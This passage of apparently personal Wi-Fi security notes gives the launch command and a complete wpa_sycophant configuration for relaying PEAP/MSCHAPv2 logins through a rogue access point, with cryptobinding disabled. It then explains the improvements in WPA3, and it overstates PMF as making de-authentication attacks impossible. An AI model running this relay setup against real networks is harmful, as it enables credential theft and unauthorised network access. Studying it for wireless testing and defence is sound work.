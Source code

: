 Launching wpa_sycophant
```
./wpa_sycophant.sh -c wpa_sycophant.conf -i wlan1
```

wpa_sycophant.conf (bssid_blacklist = MAC of your fake hostapd AP)
```
network={
  ssid="TestingEAP"
  # The SSID you would like to relay and authenticate against. 
  scan_ssid=1
  key_mgmt=WPA-EAP
  # Do not modify
  identity=""
  anonymous_identity=""
  password=""
  # This initialises the variables for me.
  # -------------
  eap=PEAP
  # Read https://w1.fi/cgit/hostap/plain/wpa_supplicant/wpa_supplicant.conf for help with phase1 options. 
  # This attempts to force the client not use cryptobinding. 
  phase1="crypto_binding=0 peapver=0"
  phase2="auth=MSCHAPV2"
  # Dont want to connect back to ourselves,
  # so add your rogue BSSID here.
  bssid_blacklist=00:14:22:01:23:45
}
```


# WPA3
The major improvement of WPA3 is a improved handshake (*Dragonfly-Handshake*) that makes it impossible for attackers to record the *4-Way Handshake* and launch a offline dictionary attack.  

The Dragonfly variant used in WPA3 is also known as *Simultaneous Authentication of Equals* (SAE).

WPA3 improvments:
- Provide mutual authentication
- Negotiate Session Key
- Prevent Offline Dictionary Attacks
- Perfect forward secrecy

WPA3 also introduces *perfect forward secrecy* which prevents attackers from decrypting past traffic after a key breach.

Additionally, WPA3 supports *Protected Management Frames* (PMF) which makes it impossible to launch *de-authentication attacks*.  
---> WPA2 already supports this, therefore this is not a novelty of WPA3. However with WPA, PMF are included from the start in the certification program.


<img src="./images/wpa2-wpa3-comparison.png" width="700"/>
